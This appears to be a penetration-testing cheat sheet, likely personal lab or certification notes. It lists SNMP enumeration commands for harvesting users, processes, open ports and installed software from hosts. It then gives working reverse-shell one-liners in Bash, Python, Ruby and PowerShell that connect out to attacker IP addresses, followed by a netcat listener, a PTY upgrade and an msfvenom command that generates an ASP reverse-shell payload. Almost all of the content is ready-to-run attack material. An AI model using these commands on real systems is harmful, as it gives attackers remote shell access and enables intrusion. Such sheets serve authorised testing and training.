 `snmp-check 10.11.1.227` does everything below, but better and formats it for you nicely :)

`snmpwalk -c public -v1 -t 10 10.11.1.115` enumerate entire MIB tree.

`snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25` enumerate Windows users.

`snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2` enumerate Windows running processes.

`snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3` enumerate open TCP ports.

`snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2` enumerate installed software.

## Reverse Shells

### Bash
`/bin/bash -i >& /dev/tcp/192.168.119.137/1337 0>&1`


### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.10.14.3",8081).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


### PowerShell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.137',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Listeners

#### Netat
`nc -lvp 4444` listen (catch) reverse shell with Netcat on port 4444

### Span TTY Shell
`python -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/bash")'`


### MSFVenom
#### ASP
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.137 LPORT=4444 -f asp > shell.asp`
